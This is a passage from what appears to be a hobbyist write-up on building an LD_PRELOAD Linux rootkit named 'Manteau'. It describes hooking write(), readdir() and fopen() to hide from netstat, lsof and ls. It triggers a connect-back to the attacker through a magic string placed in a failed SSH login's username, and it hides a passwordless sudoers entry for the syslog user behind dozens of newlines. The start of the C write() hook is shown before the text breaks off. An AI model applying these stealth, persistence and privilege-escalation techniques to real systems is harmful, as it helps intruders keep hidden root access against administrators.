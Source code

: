 ## The Noob Rootkit "Manteau"
To meet my aforementioned rootkit goals I didn't have to hook many syscalls. I ended up hooking `write()`, `readdir()`, `readdir64()`, `fopen()`, and `fopen64()`. If you discount the `64` variations for large file considerations, basically just 3 syscalls. With these 3 syscalls, we can hide from `netstat`, `lsof`, `ls`, and also spawn some plaintext connections to our attacker machine. "Manteau" means cloak in French, let's make this as corny as possible. 

## Hooking `write()` For a Trigger!
Hooking `write()` was surprisingly simple for our purposes. I wanted to create a cool way to activate/trigger our rootkit from an external host. There have been some really cool ways to do this developed over the years but I tried to be somewhat low-tech and original. [The Jynx rootkit](https://github.com/chokepoint/Jynx2/blob/master/jynx2.c) I have discussed previously in the repo, hooked the `accept()` syscall (which we will be using a lot in this post) to check local and source port information of the connection as a way to check if the connection came from the attacker. These values were hardcoded in their malicious library and could be set at compile time. It then would prompt for a password and spawn an encrypted back connect over `openssl`. We won't be doing anything that badass, but we will be doing something cool. 

### Making Syslog Evil
Initially, when contemplating ways to make a remote host do work after touching it in someway, I landed on the Apache `access.log`. What I thought I would do is, I would send a simple `GET HTTP` request with a magic string in the `User Agent:` field, and when the Apache process wrote that information to disk in the `access.log`, our hook would check the `write()` buffer for our magic string and if found, spawn a connection to our host. 

This actually worked, and it worked really well! However, there was a small problem. It actually required me restarting Apache after specifying our malicious library in `/etc/ld.so.preload` so that was aesthetically displeasing to me. I didn't like the fact that you'd have to restart a webservice for your rootkit, not saying our shared library is super stealth, but knocking over a webserver is kind of high-visibility. 

Along those same lines, I discovered that the `syslog` user writes failed SSH attempts to `auth.log`. It logs the user's username and IP address. Example entry: `Failed password for nobody from 91.205.189.15 port 38556 ssh2`. Awesome, we control the username field (`nobody` in the example) in a log on the system. The same problem applies, we must restart syslog after loading our shared library, but this isn't as high visibility as say, restarting Apache. (Linux sysadmins let me know if I'm wrong about that). 

A second problem we face is that we don't want to come back to this box as `syslog`, we want to come back as `root`. There are probably a million ways to leave yourself privesc breadcrumbs, especially given that you can hide arbitrary files, but I chose to just `visudo` the `sudoers` file and add `syslog`. I also inserted about 80 newlines after the last bit of visible text in the file before adding the `syslog ALL=(ALL) NOPASSWD:ALL` entry so that the casual `sudoers` file editor hopefully wouldn't notice. (LOL)

Alright, so we have a trigger idea and a built in privesc. Let's write some C finally!

### Write Hook
The `write()` hook I created is a lot like the `puts()` hi-jack we already studied surprisingly. The first portion looks like this: 
```c
ssize_t write(int fildes, const void *buf, size_t nbytes)
{
    ssize_t (*new_write)(int fildes, const void *buf, size_t nbytes);

    ssize_t result;

    new_write = dlsym(RTLD_NEXT, "write");


    char *bind4 = strstr(buf, KEY_4);
    char *bind6 = strstr(buf, KEY_6);
    char *rev4 = strstr(buf, KEY_R_4);
```